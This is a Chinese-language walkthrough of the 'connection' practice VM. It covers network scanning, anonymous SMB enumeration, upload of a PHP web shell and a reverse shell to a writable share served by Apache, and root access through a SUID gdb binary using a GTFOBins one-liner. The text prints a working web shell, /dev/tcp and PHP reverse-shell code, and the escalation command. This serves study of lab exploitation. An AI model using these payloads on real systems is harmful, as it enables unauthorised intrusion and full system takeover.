

# connection


前言：这个靶机的网络配置做的不是很好，需要自己配置网络。

## 前期踩点

```shell
root@kali:/home/warn# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:74:0c:8a, IPv4: 192.168.174.130
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.174.1	00:50:56:c0:00:08	(Unknown)
192.168.174.2	00:50:56:e6:a5:f9	(Unknown)
192.168.174.132	00:0c:29:a4:81:9b	(Unknown)
192.168.174.254	00:50:56:e3:99:7a	(Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.865 seconds (137.27 hosts/sec). 4 responded


warn@kali:~$ nmap -sV -sC 192.168.174.132
# -sV 查看服务和版本
# -sC 使用默认的脚本信息去检测 --script=default
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-25 14:25 CST
Nmap scan report for 192.168.174.132
Host is up (0.000091s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:e6:01:b5:f9:06:a1:ea:40:04:29:44:f4:df:22:a1 (RSA)
|   256 fb:16:94:df:93:89:c7:56:85:84:22:9e:a0:be:7c:95 (ECDSA)
|_  256 45:2e:fb:87:04:eb:d1:8b:92:6f:6a:ea:5a:a2:a1:1c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 00:0C:29:A4:81:9B (VMware)
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: connection
|   NetBIOS computer name: CONNECTION\x00
|   Domain name: \x00
|   FQDN: connection
|_  System time: 2026-03-25T02:25:48-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: CONNECTION, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2026-03-25T06:25:48
|_  start_date: N/A
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds

```

端口有：22 80 139 445。

## **SMB**

139 445 端口是 `SMB` 端口，也就是 Windows 文件共享常用的协议端口。

- 用途：通常用于
  - 文件共享
  - 共享目录访问
  - 打印机共享
  - 局域网认证/资源访问

139 更老一些，走的是`NetBIOS`，445 是 现代`SMB`直接跑`TCP`的端口。

### smbclient

```shell
smbclient -L //192.168.174.132 -N
# -N 是匿名访问
# -L 列出目标主机上所有共享文件夹的名称
# 如果存在share共享文件，我们如何连接它了
smbclient //192.168.174.132/share -N
# 如果需要用户名
smbclient //192.168.174.132/share -U 用户名
```

进去后常见的命令有：

```shell
ls
cd 
pwd
get filename # 下载文件
put filename # 上传文件
mkdir  dirname # 创建文件夹
rm filename # 删除文件
exit 
```

一次性执行命令：

```shell
smbclient //192.168.174.132/public -N -c 'ls'
```

### enum4linux

`enum4linux` 是一个自动化枚举工具，主要用来从 `SMB`、`NetBIOS`、`RPC` 里收集目标主机信息。

常见能枚举出：

- 主机名
- 工作组/域名
- 用户名
- 共享名
- 密码策略
- 操作系统信息
- RID 用户枚举结果

常见用法：

```
enum4linux 192.168.174.132 
```

更常见的是全量枚举：

```
enum4linux -a 192.168.174.132 
```

常见参数：

- -a：尽可能做全面枚举
- -u 用户名：指定用户名
- -p 密码：指定密码
- -U：枚举用户
- -S：枚举共享
- -G：枚举组
- -P：查看密码策略
- -o：查看 OS 信息
- -r：RID 枚举用户

这两个的区别：enum4linux 适合前期信息枚举，smbclient 适合后期共享文件的操作。

## 靶机的信息收集

```shell
warn@kali:~$ dirsearch -u http://192.168.174.132/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/warn/reports/http_192.168.174.132/__26-03-25_15-20-24.txt

Target: http://192.168.174.132/

[15:20:24] Starting: 
[15:20:25] 403 -  280B  - /.ht_wsr.txt
[15:20:25] 403 -  280B  - /.htaccess.bak1
[15:20:25] 403 -  280B  - /.htaccess.orig
[15:20:25] 403 -  280B  - /.htaccess.save
[15:20:25] 403 -  280B  - /.htaccess.sample
[15:20:25] 403 -  280B  - /.htaccess_extra
[15:20:25] 403 -  280B  - /.htaccess_orig
[15:20:25] 403 -  280B  - /.htaccess_sc
[15:20:25] 403 -  280B  - /.htaccessOLD
[15:20:25] 403 -  280B  - /.htaccessBAK
[15:20:25] 403 -  280B  - /.htaccessOLD2                                    
[15:20:25] 403 -  280B  - /.htm                                             
[15:20:25] 403 -  280B  - /.html
[15:20:25] 403 -  280B  - /.htpasswd_test                                   
[15:20:25] 403 -  280B  - /.httr-oauth
[15:20:25] 403 -  280B  - /.htpasswds
[15:20:26] 403 -  280B  - /.php   
[15:20:51] 403 -  280B  - /server-status                                    
[15:20:51] 403 -  280B  - /server-status/
                                                                             
Task Completed
```

`/var/www/html` :  目录啥都没有；只有一个`index.html`；80端口没有利用的信息。

现在只能把希望寄托与139与445端口。

```shell
warn@kali:~$ enum4linux -a 192.168.174.132  
# 部分内容
 ================================( Share Enumeration on 192.168.174.132 )================================


        Sharename       Type      Comment
        ---------       ----      -------
        share           Disk      
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Private Share for uploading files)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            CONNECTION

```

存在share共享文件夹，`Private Share for uploading files`告诉我们share共享文件夹可以上传文件。

## 漏洞利用

```shell
warn@kali:~$ smbclient //192.168.174.132/share -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Tue Mar 24 22:41:15 2026

                7158264 blocks of size 1024. 5448444 blocks available
smb: \> cd html
# put 1.php 测试php文件是否可以被网站解析
# put 2.php 进行反弹shell，发现无法进行反弹shell
# put php-reverse=shell.php 
# php-reverse-shell.php 在GitHub上面下载
smb: \html\> ls
  .                                   D        0  Tue Mar 24 22:41:15 2026
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  php-reverse-shell.php               A     5498  Tue Mar 24 22:48:45 2026
  index.html                          N    10701  Wed Sep 23 09:48:45 2020
  1.php                               A       27  Tue Mar 24 22:00:29 2026
  2.php                               A      191  Wed Mar 25 13:30:02 2026

                7158264 blocks of size 1024. 5448444 blocks available
smb: \html\> 

```

```php
#1.php
<?php system($_GET[1]); ?>
#2.php
<?php system('sh -i >& /dev/tcp/192.168.174.132/39666 0>&1'); ?>
```

访问`http://192.168.174.132/1.php?1=id`:



`php`可以被解析，下一步进行反弹shell。

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.174.130';  // CHANGE THIS
$port = 39666;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
# 记得在php-reverse-shell中修改ip和端口。
```

在本机上运行`nc -lvvnp 39666`，监听39666端口，访问`http://192.168.174.132/php-reverse-shell.php `。

```shell
warn@kali:~/Desktop$ nc -lvvnp 39666         
listening on [any] 39666 ...
connect to [192.168.174.130] from (UNKNOWN) [192.168.174.132] 52124
Linux connection 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 03:49:05 up  4:43,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home/connection
$ cat local.txt | base64
M2Y0OTE0NDNhMmE2YWE4MmJjODZhM2NkYThjMzk2MTcK
```

## 提权

```shell
find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
# 寻找具有suid位的文件
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
# - 第 4 位：属主执行位位置
  # - s：有 SUID 且可执行
  # - S：有 SUID 但不可执行
# - 第 7 位：属组执行位位置
  # - s：有 SGID 且可执行
  # - S：有 SGID 但不可执行
```

进入：`https://gtfobins.org/gtfobins/gdb/#shell`；搜索`gdb`。

```shell
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!/bin/sh' -ex quit
```

这个的成功率比较高。

```shell
$ gdb -nx -ex 'python import os; os.setuid(0)' -ex '!/bin/sh' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
id
uid=0(root) gid=33(www-data) groups=33(www-data)
cd /root
ls
proof.txt
cat proof.txt | base64
YTdjNmVhNDkzMWFiODZmYjU0YzU0MDAyMDQ0NzRhMzkK
```

## 总结

这算我第一次打渗透靶场吧！

不足的地方：现场学习的能力有些差，在做这个靶场的时候，对于139 445 端口的理解只停留在概念上，我只是在搜索关于139 445 端口相关的内容，并没有想应该如何连接139 和 445 端口，对于139 端口 445 端口的信息收集，我应该用哪些工具，我应该如何连接到139端口和445端口，应该使用啥工具去连接和交互，这些都是我没有考虑到的。

遇到的一些问题：

`gbd` 明明具有`suid`位，我使用网站里面的这个payload：`gdb -nx -ex '!/bin/sh' -ex quit`，但是并没有获得root 权限。我就感到很困惑，查了一下原因可能有下面几点：

* /bin/sh 在不少系统里会检测到“真实 UID 和有效 UID 不一致”，然后主动降权运行。
* gdb 这类程序以及它调用出来的 shell，很多会主动丢弃提权后的 euid，避免被当成提权入口。

我进行反弹shell的时候，`bash -i >& /dev/tcp/192.168.174.132/39666 0>&1`，并没有反弹成功，我并不知到哪里出现了错误，我就在GitHub上找php反弹shell的脚本，修改了一下ip和端口，上传上去，发现可以反弹。

如果有人看到我这篇文章，并且做了connection靶机，可以给我解惑一下吗？

感谢🙇‍。

（不用解惑了，我知道了，这个靶机上就没有/dev/tcp，我也是无语了。）